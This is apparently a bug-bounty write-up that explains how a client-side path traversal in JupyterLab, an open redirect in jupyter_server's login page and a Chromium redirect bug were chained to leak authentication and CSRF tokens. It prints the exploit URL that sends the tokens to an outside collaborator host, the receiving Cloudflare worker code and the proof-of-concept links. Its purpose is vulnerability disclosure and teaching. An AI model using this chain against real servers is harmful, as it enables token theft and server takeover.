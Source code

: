 # Leaking Jupyter instance auth token chaining CVE-2023-39968, CVE-2024-22421 and a chromium bug



After getting an invitation to [Jupyter](https://app.intigriti.com/researcher/programs/jupyter/jupyter/detail)'s private (then public and now not active anymore) program on [Intigriti](https://www.intigriti.com/) I decided to dig into its codebase. Spending a few hours I found a client side path traversal issue chaining which with an open redirect and a chromium issue, I was able to leak Jupyterlab's authentication and csrf tokens.
<!--more-->


### Client side path traversal

To find a client side path traversal I usually go one of these ways: blackboxy, i.e. spraying `../../../traversed` in all the query string or fragment parameters, or whiteboxy, i.e. manually looking for fetch/xhr sinks in javascript code. In this case, I started with spraying, then finding out the root cause of the issue.\
Reading the docs, I found [`clone`](https://jupyterlab.readthedocs.io/en/latest/user/urls.html#cloning-workspaces) parameter which would, as the name suggests, clone a workspace. I navigated to [http://localhost:8888/lab?clone=anything](http://localhost:8888/lab?clone=anything) (localhost:8888 is a jupyterlab local instance) and saw the reflection in the api request path.

![path reflection](path-reflection.png "path reflection")

Then I tried to go back a few levels by opening the following URL [http://localhost:8888/lab?clone=../../../traversed](http://localhost:8888/lab?clone=../../../traversed), and to my surprise, it worked, the app traversed back from the `workspaces` api endpoint to `/traversed`

![client side path traversal](traversed.png "client side path traversal")

But why would this work? To understand it we should start with the source, i.e. where the app starts processing `clone` query parameter, and see how it reaches the request sink. The source is located on line 439 at [packages/apputils-extension/src/index.ts](https://github.com/jupyterlab/jupyterlab/blob/97f1c6f957f272113dce8157318d74c4fb23c289/packages/apputils-extension/src/index.ts#L438-L453) and is being passed to `workspaces.fetch` on line 453.

![clone parameter source](clone-source.png "clone parameter source")

Then `workspaces.fetch` passes it to `makeRequest` at [packages/services/src/workspace/index.ts](https://github.com/jupyterlab/jupyterlab/blob/97f1c6f957f272113dce8157318d74c4fb23c289/packages/services/src/workspace/index.ts#L48) on line 48, after joining the path unsafely (`id`, i.e. malicious path via delivered via `clone` query parameter, being appended to the initial path) with URLExt.join ([packages/coreutils/src/url.ts](https://github.com/jupyterlab/jupyterlab/blob/97f1c6f957f272113dce8157318d74c4fb23c289/packages/coreutils/src/url.ts#L55)).

![workspaces.fetch](workspaces-fetch.png "workspaces.fetch")
![Private.url](private-url.png "Private.url")
![URLExt.join](urlext-join.png "URLExt.join")

And makeRequest (handleRequest) appends authorization and csrf headers at [packages/services/src/serverconnection.ts](https://github.com/jupyterlab/jupyterlab/blob/97f1c6f957f272113dce8157318d74c4fb23c289/packages/services/src/serverconnection.ts#L283-L293) on lines 283-293

![makeRequest](makeRequest.png "makeRequest")
![handleRequest](handleRequest.png "handleRequest")


### Open redirect

Now was the time I started looking for an open redirect or other ways I could store and serve my content to `workspaces.fetch` request.
Opening [http://localhost:8888/lab](http://localhost:8888/login?next=%2Flab) in an unauthenticated browser session I noticed I was redirected to [http://localhost:8888/login?next=%2Flab](http://localhost:8888/login?next=%2Flab), so I went into [jupyter_server](https://github.com/jupyter-server/jupyter_server) codebase to find out if `next` parameter was checking the redirect uri properly.

Searching for `next` led me to [jupyter_server/auth/login.py](https://github.com/jupyter-server/jupyter_server/blob/cd8010e2335de29e6f9d7b98cd496b0695bc0ed3/jupyter_server/auth/login.py#L67), which was passing it to `_redirect_safe` on line 67.

![login handler](login-handler.png "login handler")

On line 45 it is stated that if the parsed uri does not have a `netloc`, `next` query param will be used to redirect as is (line 61) [jupyter_server/auth/login.py](https://github.com/jupyter-server/jupyter_server/blob/cd8010e2335de29e6f9d7b98cd496b0695bc0ed3/jupyter_server/auth/login.py#L45)

![netloc issue](netloc-issue.png "netloc issue")

This check was possible to bypass with a url like the following - https:///evil.com (it won't have a netloc)

![python url parsing issue](python-urlparse-issue.png "python url parsing issue")

So the following URL - [http://localhost:8888/login?next=https:///evil.com](http://localhost:8888/login?next=https:///evil.com), will successfully redirect an authenticated client to https://evil.com 


### Leaking the authentication and csrf tokens

To test the issue I tried redirecting to a burp collaborator instance and see if the client would make a request to it after being redirected with the following url
```
http://localhost:8888/lab?clone=../../../login%3fnext%3dhttps%3a%2f%2f%2fmyid.oastify.com
```

Oastify, being not the same origin, triggered CORS process requiring the server to allow the following headers.
```HTTP
Access-Control-Request-Headers: authorization,content-type,x-xsrftoken
```

So I created a cloudflare worker with the following code
``` javascript
const headers = { 
    "Content-Type": "application/json",
    "Access-Control-Allow-Origin": "*",
    "Access-Control-Allow-Headers": "authorization,content-type,x-xsrftoken"
}
const fileBr = {
    data: {
    }
}


export default {
  async fetch(request, env, ctx) {
    return new Response(JSON.stringify(fileBr),{headers});
  },
};
```

The weirdest part was that the custom set headers were also being forwarded to my origin even after being redirected.

![leaking credentials](leak-credentials.png "leaking credentials")

These credentials can then be used to get access to the server simply by navigating to `http://localhost:8888/lab?token=<leaked-token>`.

### Chromium bug

At first, I thought it was an issue in [follow-redirects](https://www.npmjs.com/package/follow-redirects) package, as it had a similar vulnerability https://security.snyk.io/vuln/SNYK-JS-FOLLOWREDIRECTS-2332181 and jupyterlab had the vulnerable version. So I left it as is without taking a proper look into it.

After about a month I encountered the same issue on another program. This time it was passed into fetch API directly (not into a wrapper).

![fetch api sink](fetchapi.png "fetch api sink")

Just to be sure 😅, I have created a similar poc at https://chromium-poc-53c4.xssam.workers.dev/?id=../../redirect/?url=https://chromium-poc-cors-dd35.xssam.workers.dev/ AND IT WORKED !!.

![chromium leak](chromium-leak.png "chromium leak")

I have previously seen similar behavior on mobile apps, but chromium doing the same, was something unexpected. So I just created a ticket in the chromium bug tracker and got a quick response that it was a duplicate of a closed issue.

![duplicate](duplicate.png "duplicate issue")

This has since been fixed, and chromium does not forward custom set headers on redirect anymore.


### Closing words and tooling 

Client side path traversal vulnerabilities are quite common in single-page applications and it is always worth looking for them. I have been encountering similar issues pretty often, so to ease the process of finding path traversals, I have developed (shamelessly copied from various places) a chromium extension that will log the xhr/fetch reflected parameters in a popup https://github.com/davwwwx/Reflection-Logger.

![reflection logger extension](reflection-logger.png "reflection logger extension")

The extension is at a very early stage, so if you want a more stable tool please use Burp Suite extension at https://github.com/doyensec/CSPTBurpExtension, introduced by an amazing research whitepaper by Doyensec team https://www.doyensec.com/resources/Doyensec_CSPT2CSRF_Whitepaper.pdf.
